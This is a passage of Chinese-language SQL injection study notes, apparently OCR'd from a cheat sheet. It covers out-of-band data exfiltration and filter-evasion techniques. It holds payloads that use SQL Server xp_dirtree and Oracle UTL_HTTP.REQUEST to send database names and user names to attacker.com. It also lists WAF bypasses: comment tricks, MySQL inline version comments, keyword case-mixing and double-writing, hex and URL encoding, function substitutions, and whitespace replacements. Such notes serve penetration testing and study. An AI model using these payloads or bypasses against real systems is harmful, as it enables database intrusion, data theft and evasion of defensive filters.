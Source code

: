             SQL Server：
            ...; EXEC master..xp_dirtree ('\\databasename.attacker.com\a');
            -- 或者利用变量
            DECLARE @data varchar(1024);
            SELECT @data = (SELECT DB_NAME());
            EXEC ('master..xp_dirtree ''\\' + @data + '.attacker.com\a''');
            ```
            
        2. Http
            
            ```java
            Oracle:
            ... AND UTL_HTTP.REQUEST('http://attacker.com/' || (SELECT user FROM dual)) IS NOT NULL
            //查看Web服务器的访问日志，就能看到包含数据的URL
            
            SQL Server：
            使用xp_cmdshell执行命令行工具（如curl或powershell）来发送HTTP请求，
            但是要求权限太高了需要sa用户
            ```
            

### 绕过手法

1. 通用手法
    
    ```java
    1. 注释符绕过
    -- (注意末尾空格)
    #
    /**/ (最常用，常用于代替空格)
    /*! ... */ (内联注释，MySQL特有，其中的代码会被执行)
    	/*!50000select*/ user() ： 在MySQL版本>=5.00.00时执行其中的语句。
    /*!xxxx*/ 版本号注释
    
    2. 大小写双写
    SeLEcT
    UnIoN
    sELecT -> 如果过滤是select，则双写：selselectect 
    
    3. 编码绕过
    字符串换为16进制
    URL编码关键词（get传参双重编码）
    CHAR()函数->SELECT CHAR(97, 98, 99) -> ‘abc’
    
    4. 等价函数变量替换
    database() <-> schema()
    substr() <-> substring() <-> mid() <-> left()
    ascii() <-> hex() <-> bin() <-> ord()
    sleep() <-> benchmark(10000000, md5('test')) (通过大量运算实现延时)
    @@version <-> version()
    
    5. 特殊字符绕过空格
    %09 (TAB)
    %0a (换行)
    %0b (垂直TAB)
    %0c (换页)
    %0d (回车)
    /**/
    () 括号：union(select(1),2,3)
    